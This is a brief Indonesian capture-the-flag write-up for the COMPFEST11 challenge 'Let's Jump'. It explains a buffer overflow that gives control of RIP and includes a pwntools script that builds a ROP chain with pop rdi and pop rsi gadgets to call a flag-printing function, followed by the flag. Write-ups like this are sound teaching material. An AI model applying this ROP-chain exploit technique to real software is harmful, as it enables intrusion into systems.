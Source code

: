 # Let's Jump

vuln buffer overflow dengan memasukkan data lebih dari 9 byte kita sudah dapat mengontrol RIP. Di dalam program terdapat fungsi yang dapat menampilkan flag, tetapi ada 2 argumen sebagai syarat yg harus di kirim agar fungsi tersebut menampilkan flag
<br>
<img src="entah.png"><br>

```
from pwn import *
pop_rdi = p64(0x0000000000400923)
pop_rsi_x = p64(0x0000000000400921)
pay = "B"+"A"*0x8
pay += pop_rdi
pay += p64(1)
pay += pop_rsi_x
pay += p64(0x00400952)
pay += p64(0)
pay += p64(0x4007b6)
print(pay)
```

<br>

**COMPFEST11{jump_and_play_with_ret_gadget}**

